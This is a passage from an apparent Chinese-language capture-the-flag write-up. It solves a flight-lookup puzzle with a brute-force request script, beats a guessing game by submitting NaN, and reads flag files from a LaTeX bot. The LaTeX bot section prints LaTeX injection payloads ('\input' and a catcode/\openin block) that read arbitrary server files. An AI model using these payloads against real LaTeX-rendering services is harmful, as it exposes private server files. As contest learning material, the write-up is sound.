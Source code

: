 在地图上可以看到附近的机场有<ruby>羽<rt>はね</rt>田<rt>だ</rt></ruby>空港（HND/RJTT）和<ruby>成<rt>なり</rt>田<rt>た</rt></ruby>空港（NRT/RJAA）。

由于地图信息上球场附近写着羽田，于是猜测是羽田空港起飞。接下来的航班信息找不到了。 ~~（我又没有会员）~~

[苏卡卡 CC 攻击大法](https://blog.skk.moe/post/hackergame-2020-write-up/#Mao-Mi-Wen-Da)，启动！（这是第三次了？？）

简单分析请求后，写出以下代码：

```python
import requests
from base64 import urlsafe_b64encode
s = requests.Session()
host = "http://202.38.93.111:10055/"
jp_airports = [] # 略
abroad_airports = [] # 略
for airport in jp_airports:
    for company in ['JL', 'NH', 'HD', 'BC']:
        for flight in range(1000):
            print(airport, f"{company}{flight}")
            query = f"1=2610021&2=2340x1080&3=HND&4={airport}&5={company}{flight}"
            query_base64 = urlsafe_b64encode(
                query.encode('utf-8')).decode('utf-8')
            resp = s.get(f"{host}{query_base64}.txt")
            if resp.status_code != 404:
                print(resp.text)
                exit()
```

还好是国内航班，且航班号数字是三位。最终得到降落机场为`HIJ`，航班号为`NH683`。

## 猜数字

通过查看源码，发现要让 isTalented 的值为 1，就需要控制一次猜中的误差在`1e-6/2`以内。

没有发现办法可以让服务器忘记上一次我猜过的状态。多次尝试后， ~~我不猜了，~~ 猜测`NaN`，然后就拿到了 flag。

~~只要我猜测足够多次，就一定有一次是直接猜中的。此服务器幸免于难（x~~

## LaTeX 机器人

### 纯文本

找到[Hacking with LaTeX](https://0day.work/hacking-with-latex/)，提交`\input{/flag1}`，得到 flag。

### 特殊字符混入

通过阅读 [Reading files containing # characters](https://tex.stackexchange.com/questions/319569/reading-files-containing-characters) 和 [Read strings from file that contains the special character #](https://tex.stackexchange.com/questions/142006/read-strings-from-file-that-contains-the-special-character)，找到可以使用 [TeX/catcode](https://en.wikibooks.org/wiki/TeX/catcode)来控制 TeX 遇到特殊字符时的行为。

payload：

```latex
\newread\file
\openin\file=/flag2
\catcode`\#=11
\catcode`\_=11
\read\file to\line
\line
\closein\file
```
